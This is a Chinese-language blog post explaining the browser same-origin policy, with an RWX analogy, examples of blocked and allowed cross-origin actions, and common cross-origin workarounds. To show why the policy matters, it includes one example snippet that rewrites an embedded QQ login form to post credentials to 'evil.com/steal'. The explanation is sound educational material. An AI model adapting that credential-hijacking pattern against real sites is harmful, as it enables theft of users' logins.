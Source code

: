 title: 浏览器的同源策略
date: 2018.08.02
---

又是比较旧的知识点，网上也有很多类似的文章，看完之后大概率也能解决跨域的问题。但是实际下来，自己却不能很好地理解为什么需要同源策略，同源策略到底限制了什么。所以想写篇文章，好好做下总结。

首先，要知道同源指的是什么。

- 协议相同
- 域名相同
- 端口相同

满足上面三点才叫做同源。

然后来看下同源策略做了什么事情，[这篇文章](https://blogs.msdn.microsoft.com/ieinternals/2009/08/28/same-origin-policy-part-1-no-peeking/)用 Unix 下面的 [RWX](https://www.wikiwand.com/en/File_system_permissions#/Permissions) 去类比，我觉得非常好理解。

把同源策略比做 RWX 的话，那么一个源 A 就有下面这样的权限

- Read of resources from Origin B: Deny
- Write to Origin B: Limit
- Execute of resources from Origin B: Allow

可以看到`执行`这个权限是完全不受限制的，而`读取`的权限是完全没有，`写`的权限有一些。用几个具体的例子来看下`读取`和`执行`的区别。一个源 A 的页面

- MAY execute a script from B, but MUST not be permitted to get the raw sourcecode of that scrip
- MAY apply (execute) a CSS stylesheet from B, but MUST not be permitted to get the raw-text of that stylesheet
- MAY include (execute) a frame pointed at a HTML page from B, but MUST not be permitted to get the inner HTML of that frame
- MAY draw (execute) an image from B, but MUST not be permitted to examine the bits of that image
- MAY play (execute) a video from B, but MUST not be permitted to reconstruct the video by capturing images of it
- ......

因为上面的英文都很直接，所以就没有翻译成中文。`写`的操作包括

- 链接的跳转，比如从源 A 跳到源 B
- 源 A 向源 B 进行表单的提交
- 源 A 往源 B 的 DOM 写内容

上面的第一点和第二点是允许操作的，第三点则是禁止的。说完了这些限制，来看下如果去掉限制的话会怎样。

假设场景一，你在浏览器登陆了支付宝账户，然后没有退出。这时候在另外一个 tab 打开了一个恶意的网站，因为没有同源策略的限制，这个网站就可以直接调用支付宝的接口获取你的各种信息。

另外一个场景，你又是访问了一个恶意的网站

```html
<iframe id="qq" src="https://login.qq.com"></iframe>

<script>
    window.onload = function() {
        document.getElementById("qq").contentWindow.document.forms[0].action = "http://evil.com/steal";
    };
</script>
```

这个网站用 iframe 打开一个 qq 登陆的页面，然后直接把登录页面的表单提交地址改为自己服务器的地址。这样对方就能很轻松地获取到你的登陆信息。

虽然同源策略很有用，但是实际当中，我们也会有需要跨域操作的时候。这部分，就像开头说的，网上已经有很多文章说明，所以这里只是列举一下方法，包括

- CORS
- postMessage
- JSONP
- 反向代理

最后附上这篇文章的参考资料，排名区分先后 :-)

- <https://blogs.msdn.microsoft.com/ieinternals/2009/08/28/same-origin-policy-part-1-no-peeking/>
- <https://en.wikipedia.org/wiki/Same-origin_policy>
- <https://stackoverflow.com/questions/14667189/simple-example-for-why-same-origin-policy-is-needed>
- <https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy>


(完)
